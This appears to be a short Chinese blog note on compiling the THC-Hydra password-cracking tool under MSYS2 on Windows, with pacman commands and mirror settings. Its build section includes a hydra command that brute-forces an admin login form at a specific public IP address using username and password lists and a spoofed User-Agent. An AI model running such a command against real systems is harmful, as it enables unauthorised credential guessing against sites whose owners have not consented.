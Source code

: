 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2019-03-01T14:11:28+08:00
title: 构建 hydra
---
```


<!--more-->

Updated on 2019-03-01

> [MSYS2](https://mirrors.tuna.tsinghua.edu.cn/msys2/distrib/msys2-x86_64-latest.tar.xz)
>
> [hydra](https://github.com/vanhauser-thc/thc-hydra/archive/master.zip)

## Step
```bash
D:\Work\Download\thc-hydra-master>

pacman -Syu
pacman -S --noconfirm --needed gcc make openssl-devel

./configure && make

hydra -V -F -L username.txt -P password.txt -o ok.txt -t 20 'http-post-form://222.69.159.53:80/cm_admin/login.aspx:txtloginid=^USER^&txtpsw=^PASS^:F=password incorrect!:H=User-Agent\: wget'
```

```bash
pacman -F  jq.exe #搜索软件包（By File）
pacman -Ss gcc    #搜索软件包（By Name）
pacman -Sg mingw-w64-x86_64-toolchain #查看软件组
```

```bash
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/$arch' > /etc/pacman.d/mirrorlist.msys
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/mingw/i686' > /etc/pacman.d/mirrorlist.mingw32
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/mingw/x86_64' > /etc/pacman.d/mirrorlist.mingw64
pacman -Sy
```

## Reference
* 依赖：
  * msys-2.0.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/msys2-runtime-3.0.7-3.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/msys2-runtime-3.0.7-3-x86_64.pkg.tar.xz)
  * msys-z.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/zlib-1.2.11-1.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/zlib-1.2.11-1-x86_64.pkg.tar.xz)
  * msys-ssl-1.1.dll, msys-crypto-1.1.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/openssl-1.1.1.c-1.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/libopenssl-1.1.1.c-1-x86_64.pkg.tar.xz)
* https://www.msys2.org
* https://packages.msys2.org/group/
* https://mirrors.ustc.edu.cn/help/msys2.html
